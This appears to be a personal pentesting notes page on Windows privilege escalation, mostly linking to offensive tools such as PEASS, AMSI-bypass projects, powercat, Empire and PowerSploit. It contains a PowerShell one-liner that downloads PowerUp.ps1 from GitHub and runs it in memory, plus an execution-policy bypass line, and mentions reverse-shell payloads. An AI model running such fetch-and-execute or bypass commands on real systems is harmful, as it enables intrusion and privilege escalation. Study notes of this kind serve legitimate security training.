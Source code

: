 
For Manual Enumeration see (Again) [[Windows-Privilege-Escalation-Enumeration]]
For [[Windows-File-Transfers]]
For [[WMI-Commands]]
For [[Windows-Commands]]
For [[PrivEsc-Important-Windows-Locations]]
For [[Powershell-Versions]]
Check out [[Kali-Windows-Resources]] for selection of binaries and such to transfer!
For Powershell Bypassing see [[Windows-Privilege-Escalation Bypassing-Contrained-Powershell]]
For ASMI bypassing [[AMSI-Bypassing]]

Scripts and tools
```powershell
https://github.com/carlospolop/PEASS-ng # Is OSCP compliant as of 2022
https://github.com/Tib3rius/windowsprivchecker
https://github.com/gladiatx0r/Powerless.git # For OSCP & Legacy Windows System
https://github.com/411Hall/JAWS	# jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
https://github.com/bitsadmin/nopowershell  
https://github.com/rasta-mouse/AmsiScanBufferBypass  
https://github.com/cobbr/InsecurePowerShell  
https://github.com/BC-SECURITY/Starkiller  
https://github.com/besimorhino/powercat
```
[subinacl](https://windows-resource-kit-tools-subinacl-exe.software.informer.com/) *"enables administrators to obtain security information about files, registry keys, and services, and transfer this information from user to user, from local or global group to group, and from domain to domain."* - Stealthy and reliable.
Sysinternals will always be your friend - [[Sysinternals-Hub]] or [Download here](https://docs.microsoft.com/en-us/sysinternals/downloads/)
[[Impacket-Cheatsheet]]
[[Seatbelt-Helpsheet]]

[Empire](https://github.com/BC-SECURITY/Empire) is C2 covered here: [[Empire]] and [[Starkiller]]
For [wesng](https://github.com/bitsadmin/wesng) check usage for [[WESNG-Helpsheet]]
[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is a github repos that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 
The below will load the PowerUp script into memory of a pwoershell shell, then use [[PowerSploit-Helpsheet]], from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
```powershell
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1') 
powershell.exe -ExecutionPolicy Bypass -File .\
```

## Alway Check Arch before making shells!
Careful of x64,x32,x86_64 etc funtimes with windows!

[[MSFvenom-Payloads]]
Extension for AlwaysInstallElevated == msi
Extension for Dynamic-Linked-Libraries == dll //not done a reverse shell from a dll but maybe possible..

